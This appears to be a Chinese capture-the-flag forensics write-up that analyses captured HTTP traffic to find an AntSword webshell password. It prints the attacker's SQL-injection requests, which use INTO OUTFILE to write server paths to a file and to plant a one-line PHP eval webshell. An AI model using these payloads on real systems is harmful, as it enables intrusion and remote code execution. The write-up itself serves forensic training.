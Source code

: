 ## SSW

### SmallSword\_1

> 题目内容：连接蚁剑的正确密码是******\_\_******?（答案示例：123asd）

既然题目说明蚁剑，那么我们直接过滤 http 流，可以看到是一个`sqlilab`的网站，我们查看注入的语句，可以看到进行了写文件操作，将`@@basedir`等结果写入到 2.txt。  
[![](assets/1702520939-1c2ba2a5d74289d441936160c4b00960.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163019-d9aebf42-9991-1.png)

```plain
GET /sqlii/Less-7/index.php?id=-1')) union select 1,@@basedir,@@datadir into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\2.txt" --  HTTP/1.1
```

并且请求了 2.txt 可以看到响应内容如下。  
[![](assets/1702520939-6d1239d1214a5326c1dcc10578c19c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163047-ea18edee-9991-1.png)  
继续往下看，关注 2988 和 3075 这两个数据包，内容分别是：

```plain
# 2988
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\1.php" HTTP/1.1

# 3075
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\info1.php" HTTP/1.1
```
